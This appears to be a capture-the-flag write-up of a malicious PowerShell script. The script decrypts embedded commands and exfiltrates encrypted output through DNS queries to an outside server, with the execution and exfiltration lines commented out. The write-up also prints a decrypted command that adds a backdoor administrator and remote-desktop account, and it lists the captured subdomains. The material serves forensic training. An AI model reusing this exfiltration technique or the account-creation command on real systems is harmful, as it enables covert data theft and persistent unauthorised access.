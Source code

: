 ```powershell
$out = @("Ifu1yiK5RMABD4wno66axIGZuj1HXezG5gxzpdLO6ws=", "hhpgWsOli4AnW9g/7TM4rcYyvDNky4yZvLVJ0olX5oA=", "58v04KhrSziOyRaMLvKM+JrCHpM4WmvBT/wYTRKDw2s=", "eTtfUgcchm/R27YJDP0iWnXHy02ijScdI4tUqAVPKGf3nsBE28fDUbq0C8CnUnJC57lxUMYFSqHpB5bhoVTYafNZ8+ijnMwAMy4hp0O4FeH0Xo69ahI8ndUfIsiD/Bru", "BbvWcWhRToPqTupwX6Kf7A0jrOdYWumqaMRz6uPcnvaDvRKY2+eAl0qT3Iy1kUGWGSEoRu7MjqxYmek78uvzMTaH88cWwlgUJqr1vsr1CsxCwS/KBYJXhulyBcMMYOtcqImMiU3x0RzlsFXTUf1giNF2qZUDthUN7Z8AIwvmz0a+5aUTegq/pPFsK0i7YNZsK7JEmz+wQ7Ds/UU5+SsubWYdtxn+lxw58XqHxyAYAo0=", "vJxlcLDI/0sPurvacG0iFbstwyxtk/el9czGxTAjYBmUZEcD63bco9uzSHDoTvP1ZU9ae5VW7Jnv9jsZHLsOs8dvxsIMVMzj1ItGo3dT+QrpsB4M9wW5clUuDeF/C3lwCRmYYFSLN/cUNOH5++YnX66b1iHUJTBCqLxiEfThk5A=", "A@M3/+2RJ/qY4O+nclGPEvJMIJI4U6SF6VL8ANpz9Y6mSHwuUyg4iBrMrtSsfpA2bh")  
  
for ($num = 0 ; $num -le $out.Length - 2; $num++) {  
    _#$encryptedString = $out[$num].Strings[0]_  
    $encryptedString = $out[$num]  
    $backToPlainText = Decrypt-String $key $encryptedString  
    write-host $backToPlainText  
    _#$output = iex $backToPlainText; $pr = Encrypt-String $key $output | parts 32_  
    $output = write-host $backToPlainText; $pr = Encrypt-String $key $output | parts 32  
    _#Resolve-DnsName -type A -DnsOnly start.windowsliveupdater.com -Server 147.182.172.189_  
    for ($ans = 0; $ans -lt $pr.length - 1; $ans++) {  
        $domain = -join ($pr[$ans], ".windowsliveupdater.com")  
        _#Resolve-DnsName -type A -DnsOnly $domain -Server 147.182.172.189_  
    }  
    _#Resolve-DnsName -type A -DnsOnly end.windowsliveupdater.com -Server 147.182.172.189_  
}  
```  
  
during the run of the script, it will print: 
```powershell
"net user DefaultUsr "JHBhcnQxPSdIVEJ7eTB1X2M0bl8n" /add /Y; net localgroup Administrators /add DefaultUsr; net localgroup "Remote Desktop Users" /add DefaultUsr"
```
  
the DefaultUsr is base64 encoded, and will translate to: `$part1='HTB{y0u_c4n_'  `
  
  
for part 2:  
get all the DNS entries with a 32char subdomain and filter out the subdomain:  
```  
CC1C9AC2958A2E63609272E2B4F8F436  
32A806549B03AB7E4EB39771AEDA4A1B  
C1006AC8A03F9776B08321BD6D5247BB  
7679895D1CF7C07BB6A348E1AA4AFC65  
5958A6856F1A34AAD5E97EA55B087670  
35F2497E5836EA0ECA1F1280F59742A3  
09E28DD82C14BC32513652DAC2F2C27B  
0D73A3288A980D8FCEF94BDDCF9E2822  
2A1CA17BB2D90FCD6158856348790414  
20FC39C684A9E371CC3A06542B666005  
5840BD94CCE65E23613925B4D9D2BA53  
18EA75BC653004D45D505ED62567017A  
6FA4E7593D83092F67A81082D9930E99  
BA20E34AACC4774F067442C6622F5DA2  
A9B09FF558A8DF000ECBD37804CE663E  
3521599BC7591005AB6799C57068CF0D  
C6884CECF01C0CD44FD6B82DB788B35D  
62F02E4CAA1D973FBECC235AE9F40254  
C63D3C93C89930DA2C4F42D9FC123D8B  
AB00ACAB5198AFCC8C6ACD81B19CD264  
CC6353668CEA4C88C8AEEA1D58980022  
DA8FA2E917F17C28608818BF550FEA66  
973B5A8355258AB0AA281AD88F5B9EB1  
03AC666FE09A1D449736335C09484D27  
1C301C6D5780AB2C9FA333BE3B0185BF  
071FB1205C4DBEAA2241168B0748902A  
6CE14903C7C47E7C87311044CB9873A4  
ECABC349D27C0B0FFFD1ACEEDBE06BB6  
```